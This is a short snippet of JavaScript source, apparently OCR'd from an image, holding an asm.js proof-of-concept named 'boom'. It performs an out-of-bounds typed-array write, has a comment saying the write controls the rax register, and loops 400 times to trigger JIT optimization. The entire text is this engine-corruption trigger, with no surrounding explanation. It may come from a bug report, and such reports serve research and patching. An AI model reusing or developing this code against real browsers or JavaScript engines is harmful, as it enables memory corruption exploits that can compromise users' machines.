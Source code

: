 
boom=(function(stdlib,foreign,heap){
    "use asm";
    var Uint8ArrayView=new stdlib.Uint8Array(heap);
    var Int32ArrayView=new stdlib.Int32Array(heap);
    function f(i,i1){
        i1=Uint8ArrayView[256];
        // This following value '10' determines the value of 'rax'
        Int32ArrayView[i1>>10] = 0xabcdefaa;
        return(-i1+((Int32ArrayView[((i1))>>2])))}
return f
})(this,0, new ArrayBuffer(256));

for (var i = 0; i < 400; ++i) { // Trigger optimization
    boom(0, 0x1000);
}


